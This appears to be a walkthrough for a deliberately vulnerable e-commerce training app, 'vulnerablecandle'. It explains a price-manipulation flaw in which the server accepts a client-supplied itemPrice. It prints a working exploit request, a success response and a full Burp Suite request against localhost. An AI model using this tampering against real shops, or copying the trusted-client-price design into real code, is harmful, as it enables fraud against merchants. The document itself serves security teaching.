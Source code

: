 # Price Manipulation
Some e-commerce applications mistakenly accept the price of a product as a user input rather than use the database stored value.  vulnerablecandle possesses this vulnerability.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _POST /shoppingcarts/add/PRODUCTID/QUANTITY_

Price manipulation involves the Angular application sending an _itemPrice_ POST parameter that specifies the price used to purchase the candle at.  While this price is usually set as the database value, the attacker can manipulate it.  SpringBoot then uses this manipulated price throughout the checkout process.  Below is an exploitation example:

    POST /shoppingcarts/add/10/2
    raw:
    {
        "itemPrice" : 1.00
    }

Here we added two of the product with ID 10 (Cedar Candle) and stated the price of one Cedar candle as $1.00.  When the attacker later checks out their shoppingcart they will pay $2.00 for both candles.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Success"
    }

## Burp Suite Example Exploitation

    POST /shoppingcarts/add/10/2 HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 18
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: application/json
    X-XSRF-TOKEN: 877dd681-4a9f-41f0-ae74-d1ada25aab32
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=877dd681-4a9f-41f0-ae74-d1ada25aab32; JSESSIONID=1C77B365979B077008298700287FA604
    Connection: close

    {"itemPrice":1.00}

